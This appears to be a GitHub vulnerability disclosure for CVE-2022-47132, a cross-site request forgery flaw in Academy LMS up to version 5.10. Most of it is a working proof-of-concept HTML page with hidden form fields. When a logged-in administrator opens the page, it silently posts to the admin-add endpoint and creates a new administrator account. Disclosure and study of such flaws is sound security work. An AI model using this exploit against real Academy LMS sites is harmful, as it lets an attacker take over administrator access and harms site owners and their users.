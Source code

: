 # CVE-2022-47132
Academy LMS &lt;= 5.10 CSRF

# Description
Academy LMS is an application where people can create and advertise courses. The ability to add a new administrative user is vulnerable to CSRF, making it possible to use social engineering to gain admin access on the platform.

#Proof of Concept (POC)
The first step in our proof of concept is to authenticate to the platform with an administrative user.

After that, simply access the page that contains the code for exploiting the vulnerability, and see that a new administrative user has been added to the system.

Code used in the exploit:

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://target.com/academy/admin/admins/add" method="POST">
      <input type="hidden" name="first&#95;name" value="csrf" />
      <input type="hidden" name="last&#95;name" value="vinix" />
      <input type="hidden" name="biography" value="&lt;p&gt;csrf&#32;poc&lt;&#47;p&gt;" />
      <input type="hidden" name="files" value="" />
      <input type="hidden" name="user&#95;image" value="" />
      <input type="hidden" name="email" value="username" />
      <input type="hidden" name="password" value="password" />
      <input type="hidden" name="facebook&#95;link" value="" />
      <input type="hidden" name="twitter&#95;link" value="" />
      <input type="hidden" name="linkedin&#95;link" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
